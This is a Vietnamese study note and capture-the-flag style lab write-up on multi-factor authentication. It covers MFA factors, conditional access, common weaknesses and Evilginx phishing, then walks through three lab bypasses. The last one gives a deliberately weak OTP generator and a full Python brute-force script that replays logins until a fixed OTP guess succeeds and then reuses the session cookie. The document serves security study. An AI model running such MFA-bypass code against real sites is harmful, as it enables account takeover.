# **Multi-Factor Authentication**
## **1. How MFA works**
**MFA**(Multi-Factor Authentication) được biết đến với những tiến trình xác thực yêu cầu từ 2 yếu tố, quá trình xác thực trở lên. **2FA** là một tập con của **MFA**

### **Types of Authentication Factors**
MFA thường là kết hợp 2 hoặc nhiều thông tin xác thực như: 
- something you know (biết): password, PIN, hints
- something you have (có): authentication app, security token, smart card
- something you are (là): dấu vân tay, facial recognition(*nhận dạng khuôn mặt*), iris scans(*quét mống mắt*)
- something you are (ở đâu): IP 
- something you do (hành động): nhận diện thao tác di chuột, nhập thông tin của người dùng,...



### **Kinds of 2FA**
- Time-Based One-Time Passwords (TOTP): dùng một lần và thay đổi trong 30s (*Google Authenticator, Microsoft Authenticator, Authy*) 
- Push Notifications(Thông báo đẩy): khi có một hành động đăng nhập nó các app như *Duo, Google Prompt* sẽ gửi thông báo về thiết bị mà ta đã đăng kí với tài khoản đó, ta có thể chấp nhận hoặc từ chối yêu cầu đăng nhập đó
- SMS: thực hiện gửi thông báo SMS về số điện thoại đã đăng kí với tài khoản đó
- Hardware Tokens: sử dụng những thiết bị phần cứng để lưu trữ token hoặc YubiKeys đẻ tạo những OPT, nó hoạt động trong cả môi trường offline

### **Conditional Access**
Có một cách xác thực khá là linh hoạt nó dựa vào **decision tree** để quyết định phương thức xác thực, ví dụ nếu đăng nhập IP công ty --> chỉ cần phải nhập user/pass là có thể vào; nhưng khi đăng nhập ở nơi khác --> sẽ bắt nhập MFA

- Location-Based: Dựa trên vị trí để quyết định
- Time-Basedl: dựa vào thời gian
- Behavioral Analysis: dựa vào hành vi của người dùng: giả dụ người dùng đột nhiên truy vập vào dữ liệu ít truy cập hoặc vào thời gian ít khi vào
- Device-Specific: dựa vào thiết bị hoạt động

## **2. Implementations and Application**
- MFA in Banking: sử dụng 2FA, thứ nhất là user/pass, thứ 2 là OPT từ SMS hoặc các ứng dụng thứ 3; kể cả khi attacker có mật khẩu nhưng không có OPT thì kết quả là cũng không vào được
- MFA in Healthcare
- MFA in Corporate IT

## **3. Common Vunerabilities in MFA**
- Weak OTP Generation Algorithms: sử dụng thuật toán yếu, hoặc seed yếu để tạo ra OPT
- Application Leaking the 2FA Token: làm lộ OPT ngay trong response
- Brute Forcing the OTP

---
### **Usage of Evilginx**
Evilginx là công cụ dành cho red team, nó hoạt động theo MITM: khi tấn công, attacker sẽ gửi link giả mạo để người dùng nhập thông tin của mình vào, sau đó OPT sẽ tự động được chuyển tới attacker



## **3. Practical - OPT Leakage**
Lỗi này thường xảy ra khi OPT được trả về trực tiếp trong response, nguyên nhân là do Dev đã quên không tắt Debug kể cả khi đã deploy sản phẩm

---



Ban đầu đề đã cho thông tin đăng nhập của người dùng



Sau khi đăng nhập, web chuyển đến một site để xác thực OPT, ta sẽ mở Burp để có thể xem được luồng hoạt động của web



Ta thấy có một response đã trả về cả OPT



## **4. Practical - Insecure Coding**



Đề tiếp tục cho ta user/pass để đăng nhập và phải xác thực MFA, ta sẽ mở Burp để có thể thực hiện quan sát luồng hoạt động của ứng dụng



Mặc dù ta mới chỉ đăng nhập thôi nhưng có 1 response đã trả về `{"token":"success"}`, vì vậy ta có thể giả định rằng web đã cho rằng user đã nhập đùng OTP và cho phép vào



Khi ta truy cập thẳng vào dashboard, web đã cho phép ta vào mà không cần thực hiện nhập OTP

## **5. Practical - Beating the Auto-Logout Feature**

Một số trang web có cơ chế bảo vệ: khi người dùng nhập thông tin đăng nhập vào rồi được đưa đến trang OPT, khi người dùng nhập sai OPT, nó sẽ thực hiện đưa người dùng trở lại trang đăng nhập và bắt nhập lại thông tin đăng nhập

---
Trong đề này, ta thấy web chỉ thực hiện gen OPT từ khoảng `1250` đến `1350`, tức là 100 số

```python
function generateToken()
{
    $token = strval(rand(1250, 1350));

    $_SESSION['token'] = $token;
    return 'success';
}
```


Nhập thông tin đăng nhập của người dùng



Sau đó ta được đưa đến trang nhập OPT



Sau khi nhập sai OPT, web trực tiếp điều hướng ta về trang đăng nhập\
Với bài này, ý tưởng của ta sẽ là brute-force, chọn 2 số OPT nhất định, thử đăng nhập nhiều lần cho đến khi xuất hiện lần đăng nhập có đúng mã OPT mà ta đặt ra, sau đó truy xuất session của phiên đăng nhập đó và đăng nhập vào tài khoản đó

### **PoC**

```python
import requests, bs4

ip = '10.49.156.224'

# Define the URLs for the login, 2FA process, and dashboard
login_url = f'http://{ip}/labs/third/'
otp_url = f'http://{ip}/labs/third/mfa'
dashboard_url = f'http://{ip}/labs/third/dashboard'

# Define login credentials
credentials = {
    'email': 'thm@mail.thm',
    'password': 'test123'
}

session = requests.Session()

def log_dashboard(session_cookie):
    cookie = {
        'PHPSESSID': session_cookie
    }

    response = requests.get(
        url=dashboard_url,
        cookies=session_cookie
    )

    # print(response.text)
    soup = bs4.BeautifulSoup(response.text, 'html.parser')
    flag = soup.find('div',  class_="cursor-pointer p-4 rounded-lg bg-green text-thm").get_text(strip=True)
    print(f'[+] Flag: {flag}')


def main():
    opt = '1300'
    i = 0
    session_cookie=''
    while True:
        print(f'[{i}] Đang thực hiện brute force-otp')
        # Đăng nhập 
        response_login = session.post(
            url=login_url,
            data=credentials
        )

        # print(response.history)
        # print(response.text)

        # Gửi OPT
        

        data_otp = {
            'code-1':opt[0],
            'code-2':opt[1],
            'code-3':opt[2],
            'code-4':opt[3]
        }

        response_opt = session.post(
            url=otp_url,
            data = data_otp,
            allow_redirects=False
        )

        # print(response_opt.headers)
        # print(response_opt.status_code)
        # print(response_opt.history)

        if '/labs/third/dashboard' in response_opt.headers['Location']:
            session_cookie=session.cookies.get_dict()
            print(f'[+] Session: {session_cookie}')
            break
        else:
            print(response_opt.headers['Location'])
            print('OTP không chính xác!')
        i+=1

    log_dashboard(session_cookie)`


if __name__=='__main__':
    main()
```

**Kết quả**




